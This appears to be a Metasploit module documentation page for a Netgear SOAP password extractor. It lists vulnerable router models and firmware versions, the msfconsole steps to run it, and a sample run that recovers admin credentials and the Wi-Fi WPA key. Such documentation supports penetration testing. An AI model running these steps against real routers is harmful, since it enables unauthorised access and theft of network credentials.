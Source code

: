 ## Vulnerable Application

The following list is a non-exhaustive list of vulnerable Netgear devices:
1.  R6300v2  < [1.0.3.28](http://kb.netgear.com/app/answers/detail/a_id/28372)
2.  WNDR3300 - V1.0.45 (current, confirmed vuln)
3.  WNDR3700v1 - 1.0.7.98, 1.0.16.98 (confirmed vuln)
4.  WNDR3700v2 - 1.0.1.14 (EOL, confirmed vuln)
5.  WNDR3700v4 < [1.0.2.80](http://kb.netgear.com/app/answers/detail/a_id/28355)
6.  WNDR3800 - 1.0.0.48 (EOL, confirmed vuln)
7.  WNDR4300 < [1.0.2.80](http://kb.netgear.com/app/answers/detail/a_id/28037)
8.  WNR1000v2 - 1.0.1.1, 1.1.2.58 (EOL, confirmed vuln)
9.  WNR2000v3 < [1.1.2.12](http://kb.netgear.com/app/answers/detail/a_id/30024)
10. WNR2200 < [1.0.1.96](http://kb.netgear.com/app/answers/detail/a_id/28036)
11. WNR2500 < [1.0.0.32](http://kb.netgear.com/app/answers/detail/a_id/28351)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/netgear_soap_password_extractor```
  3. Do: ```set rhost <ip>```
  4. Do: ```run```
  5. You should get admin info on the device

## Scenarios

  Example run against wnr2000v3 with firmware 1.1.2.10:

```
msf > use auxiliary/admin/http/netgear_soap_password_extractor 
msf auxiliary(netgear_soap_password_extractor) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(netgear_soap_password_extractor) > run

[*] Trying to access the configuration of the device
[*] Extracting Firmware version...
[+] Model wnr2000v3 found
[+] Firmware version V1.1.2.10 found
[+] Device details downloaded to: /root/.msf4/loot/20160706212637_default_192.168.1.1_netgear_soap_dev_000157.txt
[*] Extracting credentials...
[*] Credentials found, extracting...
[+] admin / password credentials found
[+] Account details downloaded to: /root/.msf4/loot/20160706212637_default_192.168.1.1_netgear_soap_acc_387111.txt
[*] Extracting Wifi...
[+] Wifi SSID: NETGEAR44
[+] Wifi Encryption: WPA2-PSK
[*] Extracting WPA Keys...
[+] Wifi Password: netgearpassword22
[*] Auxiliary module execution completed
```
